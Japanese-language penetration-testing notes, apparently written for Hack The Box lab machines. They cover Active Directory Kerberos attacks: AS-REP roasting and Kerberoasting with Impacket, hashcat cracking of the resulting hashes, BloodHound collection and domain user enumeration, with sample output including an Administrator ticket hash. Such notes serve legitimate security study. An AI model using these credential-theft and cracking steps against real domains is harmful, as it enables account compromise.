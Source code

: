 ## GetNPUsers.py (AS_REProast)

ASREPRoast攻撃により**Kerberos事前認証が不要**なユーザーを探索しそのパスワードハッシュの取得を狙う。

```
# specific user 
┌──(kali㉿kali)-[~]
└─$ impacket-GetNPUsers.py -no-pass -dc-ip 10.10.10.52 htb.local/mantis

# Using user list
┌──(kali㉿kali)-[~]
└─$ GetNPUsers.py htb.local/ -no-pass -dc-ip 10.10.10.161 -usersfile users.txt 
```

**krb5asrep**ハッシュのクラック：

```
┌──(kali㉿kali)-[~]
└─$ hashcat -a 0 -m 18200 hash /usr/share/wordlists/rockyou.txt
```

## Blood Hound from "LOCAL"

```
┌──(kali㉿kali)-[~]
└─$ bloodhound-python -u <domain account> -p <account's password> -ns <target's IP> -d <Domain> -c All

(e.g.) $ loodhound-python -u svc_tgs -p GPPstillStandingStrong2k18 -ns 10.10.10.100 -d active.htb -c All
```

## GetUserSPNs.py
指定したドメインアカウント下で動いてるSPN（Service Principal Name）を探す。

- -reqeust: TGS（サービスチケットを発行するサーバ）にリクエストを出す
- -save: TGSを保存する（<username>.ccacheのフォーマット）

```
┌──(kali㉿kali)-[~]
└─$ GetUserSPNs.py -request -dc-ip <target IP> <domain>/<user name> -save -outputfile GetUserSPNs.out

(e.g.) $ GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```
  
(c.f. [0xdf hacks stuff](https://0xdf.gitlab.io/2018/12/08/htb-active.html#decrypting-gpp-password))

> I’ll use the GetUserSPNs.py script from Impacket to get a list of service usernames which are associated with normal user accounts. 
It will also get a ticket that I can crack. 
  
***GetUserSPNs.pyの結果Administratorのハッシュが取れた！！！***
  
```
┌──(kali㉿kali)-[~]
└─$ ls
Administrator.acache
GetUserSPNs.out
  
┌──(kali㉿kali)-[~]
└─$ cat GetUserSPNs.out
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$25bac967bc8a16...
```
  
注意）このハッシュは（**krb5tgs**）のhashcatでは「-m 13100」。ハッシュタイプ18200はAS_Repのハッシュ。

  
### GetNPUsers.pyとGetUserSPNs.pyについて
#### GetNPUsers.py -> "AS_REPRoasting"（存在するユーザ名のみでOK）
-> ASREPRoastingとは、ケルベロスチケットを要求する際にpre-authenticationを必要としないようなアカウントに対して、"Does not require Pre-Authentication"なる権限を持っている場合に起こる。

  
#### GetUserSPNs.py -> "TGS_REPRoasting"（存在するユーザ名とそのパスワード（それなりの権限が必要かも））
-> そのドメイン内のアカウントのクリデンシャルを知っていれば、それは普通にTGSに対して要求できるでしょ。で、その**TGS_REPにはSPNのハッシュが含まれている**。これをofflineでクラックすると。（Activeの場合は、AdministratorがSPNに関連してたのがセキュリティホールかな）

# GetADUser
そのADのユーザ一覧表示（1人分のcredentialがあればできる）
 ```
  ┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174/LocalBloodHound]
└─$ impacket-GetADUsers -all support.htb/ldap -dc-ip 10.10.11.174                                                                                130 ⨯
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Querying 10.10.11.174 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2022-07-20 02:55:56.729359  2022-10-07 13:29:51.666899 
Guest                                                 2022-05-28 20:18:55.212082  <never>             
krbtgt                                                2022-05-28 20:03:43.762633  <never>             
ldap                                                  2022-05-28 20:11:46.462052  2022-10-07 16:50:43.791910 
support                                               2022-05-28 20:12:00.977707  <never>             
smith.rosario         smith.rosario@support.htb       2022-05-28 20:12:19.305799  <never>             
hernandez.stanley     hernandez.stanley@support.htb   2022-05-28 20:12:34.870818  <never>             
wilson.shelby         wilson.shelby@support.htb       2022-05-28 20:12:50.352678  <never>             
anderson.damian       anderson.damian@support.htb     2022-05-28 20:13:05.993295  <never>             
thomas.raphael        thomas.raphael@support.htb      2022-05-28 20:13:21.774558  <never>             
levine.leopoldo       levine.leopoldo@support.htb     2022-05-28 20:13:37.508924  <never>             
raven.clifton         raven.clifton@support.htb       2022-05-28 20:13:53.133921  <never>             
bardot.mary           bardot.mary@support.htb         2022-05-28 20:14:08.633925  <never>             
cromwell.gerard       cromwell.gerard@support.htb     2022-05-28 20:14:24.258920  <never>             
monroe.david          monroe.david@support.htb        2022-05-28 20:14:39.712058  <never>             
west.laura            west.laura@support.htb          2022-05-28 20:14:55.446424  <never>             
langley.lucy          langley.lucy@support.htb        2022-05-28 20:15:10.930801  <never>             
daughtler.mabel       daughtler.mabel@support.htb     2022-05-28 20:15:26.274558  <never>             
stoll.rachelle        stoll.rachelle@support.htb      2022-05-28 20:15:42.290214  <never>             
ford.victoria         ford.victoria@support.htb       2022-05-28 20:15:58.118301  <never> 
 ```
  
